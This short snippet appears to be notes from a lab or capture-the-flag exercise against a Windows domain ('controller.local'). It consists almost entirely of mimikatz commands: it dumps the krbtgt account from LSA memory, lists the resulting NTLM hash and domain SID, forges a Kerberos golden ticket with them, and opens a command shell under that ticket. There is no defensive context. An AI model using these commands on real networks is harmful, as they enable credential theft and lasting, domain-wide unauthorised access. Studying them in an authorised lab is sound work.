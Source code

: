 ```mimikatz
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

we will need:
+ username: krbtgt
+ NTLM hash: 5508500012cc005cf7082a9a89ebdfdf
+ SID: S-1-5-21-849420856-2351964222-986696166
+ domain name: controller

```mimikatz
kerberos::golden /user:krbtgt /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```

then user

```mimikatz
misc::cmd
```